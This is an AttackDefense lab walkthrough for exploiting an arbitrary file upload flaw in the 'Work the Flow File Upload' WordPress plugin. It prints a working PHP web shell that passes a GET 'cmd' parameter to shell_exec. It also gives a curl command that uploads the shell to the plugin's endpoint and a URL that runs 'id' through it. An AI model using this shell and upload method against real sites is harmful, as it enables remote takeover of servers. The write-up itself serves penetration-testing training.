

<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">WordPress Plugin </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=241>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Real World Webapps : File Upload </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Solution:**  

**Step 1:** Inspect the web application. ![ref1]

Login to the web application and identify the installed plugins.  

Navigate to the admin login panel, click on the “Log in” hyperlink under “META” section. 

Admin login panel: ![ref1]

The login credential of the web application is provided in the challenge description: 

- Username: pentester 
- Password: password1 

Admin Dashboard:** 

Navigate to the “Plugins” tab on the left panel. ![ref1]

“Work the Flow File Upload” plugin is installed. 

**Step 2:** Search on google “Wordpress Work the Flow File Upload file upload” and look for publically available exploits.**  

The exploit db link contains the steps to be followed in order to exploit the vulnerability. ![ref1]**Exploit DB Link: <https://www.exploit-db.com/exploits/36640>** 

**Step 3:** Create a PHP web shell. 

Save the below given php script as shell.php 

<?php 

$output = shell\_exec($\_GET["cmd"]); echo "<pre>$output</pre>"; 

?> 

**Command:** cat shell.php ![ref1]

**Step 4:** Upload the web shell using curl command 

**Command:** curl -k -X POST -F "action=upload" -F "files=@./shell.php" http://9f8fa39xan4m8igpejgdexdjn.asia.attackdefenselabs.com/wp-content/plugins/work-the-flow -file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php 

The file will be uploaded to the directory “/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php /files/”. 

**Step 5:** Access the uploaded PHP script. 

**URL:** http://9f8fa39xan4m8igpejgdexdjn.asia.attackdefenselabs.com/wp-content/plugins/work-the-flow -file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/files/shell.php 

No output is returned since the cmd parameter was not passed. **Step 6:** Execute system commands through “cmd” GET parameter. **Command:** id 

**URL: ![ref1]**http://9f8fa39xan4m8igpejgdexdjn.asia.attackdefenselabs.com/wp-content/plugins/work-the-flow -file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/files/shell.php?cmd=id 

The “id” command was executed on the web server and the output was dumped on the web page. 

**References:**  

1. Work The Flow File Upload (<https://github.com/wp-plugins/work-the-flow-file-upload>)  ![ref1]
1. WordPress Plugin Work The Flow File Upload 2.5.2 - Arbitrary File Upload (<https://www.exploit-db.com/exploits/36640>)  

[ref1]: Aspose.Words.8fd36955-d500-4f99-b5cd-023c9f76cb4c.003.png
